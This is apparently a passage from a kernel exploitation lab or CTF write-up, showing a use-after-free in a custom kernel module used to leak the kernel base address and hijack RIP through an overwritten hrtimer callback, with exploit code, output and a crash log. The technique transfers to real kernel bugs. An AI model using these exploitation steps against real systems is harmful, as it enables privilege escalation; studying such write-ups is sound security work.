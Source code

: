```c
```

We get the following output, and the `base_address` is successfully leaked. This can be confirmed using a SUID binary.

```sh
./exploit
uaf_buf: 0x22f1840
base_address: 0xffffffffaf000000
```

#### place a ROP gadget at `hrtimer_restart`'s place to point `RSP` to (`RDI`/`R14`).

First, let’s confirm whether we can control `RIP` by setting it to `0xdeadbeefdeadbe00` using the following code:

```c
leak[5] = 0xdeadbeefdeadbe00ULL;
if (ioctl(vuln_fd, USE_WRITE, uaf_buf) != 0) {
  printf("USE_WRITE failed\n");
  goto cleanup;
}
```

Output:

```sh
./exploit
uaf_buf: 0x772840
base_address: 0xffffffff8a000000
[+] Press Enter to continue
[    2.531059] input: ImExPS/2 Generic Explorer Mouse as /devices/platform/i8042/serio1/input/input3
[   12.511589] general protection fault: 0000 [#1] PREEMPT SMP NOPTI
[   12.512248] CPU: 0 PID: 0 Comm: swapper/0 Tainted: G           O       6.6.16 #1
[   12.512594] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS Arch Linux 1.16.3-1-1 04/01/2014
[   12.513402] RIP: 0010:0xdeadbeefdeadbe00
[   12.514261] Code: Unable to access opcode bytes at 0xdeadbeefdeadbdd6.
[   12.514569] RSP: 0018:ff54d2c6c0003f28 EFLAGS: 00010082
[   12.514889] RAX: ff2427c7c761f701 RBX: deadbeefdeadbe00 RCX: 0000000000000001
[   12.515165] RDX: 0000000000000000 RSI: 0000000000000006 RDI: ff2427c7c1bf5800
[   12.515430] RBP: ff2427c7c761f1c0 R08: ff2427c7c761f220 R09: 0000000000000000
[   12.515669] R10: 0000000000000000 R11: ff54d2c6c0003ff8 R12: 0000000000000006
[   12.515948] R13: ff2427c7c761f220 R14: ff2427c7c1bf5800 R15: ff2427c7c761f200
[   12.516243] FS:  0000000000000000(0000) GS:ff2427c7c7600000(0000) knlGS:0000000000000000
[   12.516524] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[   12.516708] CR2: deadbeefdeadbe00 CR3: 0000000001c10000 CR4: 0000000000751ef0
[   12.517032] PKRU: 55555554
[   12.517227] Call Trace:
[   12.517952]  <IRQ>
[   12.518263]  ? die_addr+0x31/0x80
[   12.518537]  ? exc_general_protection+0x1af/0x3d0
[   12.518753]  ? check_preempt_curr+0x32/0x70
[   12.518924]  ? asm_exc_general_protection+0x26/0x30
[   12.519156]  ? __hrtimer_run_queues+0x10d/0x2a0
[   12.519324]  ? hrtimer_interrupt+0xf3/0x230
[   12.519464]  ? __sysvec_apic_timer_interrupt+0x4b/0x140
[   12.519698]  ? sysvec_apic_timer_interrupt+0x65/0x80
[   12.519993]  </IRQ>
[   12.520146]  <TASK>
```
